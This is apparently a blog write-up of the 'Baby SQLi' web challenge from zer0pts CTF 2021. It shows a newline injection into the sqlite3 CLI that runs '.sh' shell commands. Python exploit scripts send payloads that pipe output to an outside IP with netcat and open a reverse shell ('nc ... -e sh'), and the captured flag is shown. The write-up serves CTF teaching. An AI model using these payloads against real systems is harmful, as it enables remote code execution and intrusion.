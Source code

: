 ```yaml
---
layout: post
date: 2021-03-08 00:00:10
title: "zer0pts CTF 2021 Write Up"
categories: CTF
tags: [SQL Injection]
author:
  - Jeongwon Jo

---
```

## <span style="color:#21C587"></span> (Web) Baby SQLi [170 pts]

> Baby SQLi challenge is bypass of waf and using shell command.

First, You can using `.system/.shell/.sh` command and execute shell command in SQLite3

```
// SQLite3 CLI
sqlite> .sh id|nc 141.164.52.207 2

// Terminal
root@py:~# nc -lp 2
uid=0(root) gid=0(root) groups=0(root)
```
As above, you can see in sqlite3 executes a shell command using the `.sh` command.

```python
def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result
```
Looking at the source code, you can line jump using the `\n` character because using the `communicate()` in `subporcess.Popen()` in `sqlite3_query()`.

```python
@app.route('/login', methods=['post'])
def auth():
    username = flask.request.form.get('username', default='', type=str)
    password = flask.request.form.get('password', default='', type=str)
    if len(username) > 32 or len(password) > 32:
        flask.session['msg'] = 'Too long username or password'
        return flask.redirect(flask.url_for('home'))

    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    if result:
        flask.session['name'] = username
    else:
        flask.session['msg'] = 'Invalid Credential'
    return flask.redirect(flask.url_for('home'))
```
And looking at the source code in login logic, you can see that `username`/`password` value is input, the length is verified, and it is put in query statement and at this point, you can see that the `username` value is escaped. but, you don't worry because treats escape characters as simple string is sqlite3.

```
SELECT * FROM users where username = "\" or 1=1 -- " and password = "pocas";
```
In other words, It doensn't matter if it escaped as above.

```
SELECT * FROM users where username = "\";
.sh id|nc 141.164.52.207 2;
and password = "pocas";
```
So, you can use shell command by doing line jumps as above and using the .sh command.

```python
import requests

url = "http://web.ctf.zer0pts.com:8004"
username = '";\n.sh id|nc 2376348879 2\n'
data = {"username": username, "password": "pocas"}
requests.post(url+"/login", data)
```
```
root@py:~# nc -lp 2
uid=1000(app) gid=1000(app)
root@py:~#
```
If you write the exploit code as above, close `SELECT` statemnt and in the line immediately underneath execute `.sh` command.

```python
import requests

url = "http://web.ctf.zer0pts.com:8004"
username = '";\n.sh nc 2376348879 2 -e sh\n'
data = {"username": username, "password": "pocas"}
requests.post(url+"/login", data)
```
```
root@py:~# nc -lvnp 2
Listening on 0.0.0.0 2
Connection received on 165.227.180.221 38761
id
uid=1000(app) gid=1000(app)
cat templates/index.html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>Welcome</title>
    </head>

    <body>
        <h1>Welcome, {{name}}!</h1>
        {% if name == 'admin' %}
        <p>zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4$$w0rd?}</p>
        {% else %}
        <p>No flag for you :(</p>
        {% endif %}
    </body>
</html>
```
Final, I pass the shell using `e` option about `nc` and read `index.html` and saw the flag.

> FLAG : zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4$$w0rd?}

---
